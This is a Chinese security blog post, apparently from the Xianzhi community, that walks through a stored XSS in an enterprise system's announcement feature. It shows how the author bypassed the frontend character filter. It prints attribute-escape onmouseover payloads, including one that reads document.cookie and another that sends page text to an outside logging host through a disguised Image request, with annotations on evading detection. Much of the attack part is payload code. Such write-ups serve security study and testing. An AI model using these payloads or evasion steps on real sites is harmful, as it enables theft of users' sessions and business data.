






# 记录某企业存储型XSS漏洞从发现到数据外泄全路径分析-先知社区

> **来源**: https://xz.aliyun.com/news/18290  
> **文章ID**: 18290

---

### 声明

本文章所分享内容仅用于网络安全相关的技术讨论和学习，注意，切勿用于违法途径，所有渗透测试都需要获取授权，违者后果自行承担，与本文章及作者无关，请谨记守法。

# 0x1. 概述

由于漏洞系统比较敏感，下面涉及域名地址的相关图片我就只能厚码打上，感谢各位看官的支持与理解!!!

# 0x2. 正文

#### 0x01 漏洞发现：

进入系统后就发现有发布公告的功能点，当然会测试一番，好家伙，被过滤了，在换，再试，然后看js，确实过滤，就不断尝试，burp改包发包验证，常规xss语句看来是弹窗不了；不要问我为什么就觉得这里有问题，问就是凭借直觉和它做了过滤动作，必定有没有过滤到位的，自然也就坚持去搞搞。






然后就看了，发布公告的里面输入框具体过滤什么，分析后就开始绕过之路！！！



从js可以知道存在前端过滤+符号转义+禁用字符检测，同时也分析发现前端过滤机制excludeSpecial()函数被注释无效，containSpecial()仅检测$^<>和script关键词，就是使用绕过特殊字符检测，采用无尖括号事件处理器：onmouseover代替onload。

​

#### 0x02 验证漏洞：

分析后就如下方式尝试构造如下3个poc进行绕过：

1. **语法构造优化**

* " x="：强制闭合原始属性
* 空格分隔：绕过空格过滤检测
* 省略引号：采用无引号事件调用

2. **特征规避技术**

* 避免使用黑名单字符：<>$^等
* 避开关键词：不使用script/js/http等
* 使用低频事件处理器：onmouseover> onclick

|  |  |  |
| --- | --- | --- |
| **POC** | **验证阶段** | **渗透对象** |
| " onmouseover="alert(1)" x=" | 基础验证弹窗 | 事件触发机制 |
| " onmouseover="alert(document.cookie)" x=" | 会话穿透 | HttpOnly Cookie保护 |
| " onmouseover="(new Image).src='...'" x=" | 数据渗出 | DOM核心业务节点 |

```
" onmouseover="alert(1)" x="

1. 关键字符检测仅限 [$^<>]，空格/引号/括号均被放行
2. "script"检测可通过事件处理器绕过
3. 未监控Image对象请求外部资源行为  
```



DOM精准渗透/流量伪装技术：

```
" onmouseover="alert(document.cookie)" x="    

" onmouseover="
  (new Image).src='https://x.xxx.xx.xx:8000/log?k='+encodeURIComponent(
    document.querySelector('.th_bg').innerText
  )
" x=" 

.th_bg             // 定位企业公告核心DOM节点
.innerText         // 文本提取避开HTML结构干扰
encodeURIComponent // 规避特殊字符警报
(new Image).src=   // 伪装图片请求
'http://'+IP+端口   // 绕过协议关键字检测
/log?k=            // 模拟正常日志请求

```





**漏洞核心突破点**：

* 无视containSpecial()函数对$^<>和script的检测
* 利用前端过滤失效实现HTML属性逃逸
* 实现从基础弹窗到业务数据窃取的攻击
* 输入检测盲区 + 渲染层无过滤 = 持久化攻击链

# 0x3. 总结

**根本漏洞链**：  
 无效过滤函数 → 事件处理器白名单缺失 → 属性逃逸构造 → DOM数据渗出

**完整漏洞链**：


**渗透测试链路**：

```
过滤检测 → 属性逃逸 → 事件注入 → 数据提取 → 外传通道

//坚持自己选择，不要遇到绕不过的就放弃了，毕竟有很多事情，不起尝试怎么知道自己不行咯！
```

# 0x4. 最后忠告

XSS漏洞挖掘的本质是语法与规则的对抗。成功的挖掘必须建立在：

1. 对过滤机制的逆向解构
2. 业务场景数据节点的测绘
3. 渗出通道的隐蔽性保障 保持对空格/引号/括号等基础语法元素的敏感性，往往比追求复杂攻击技术更有成效！
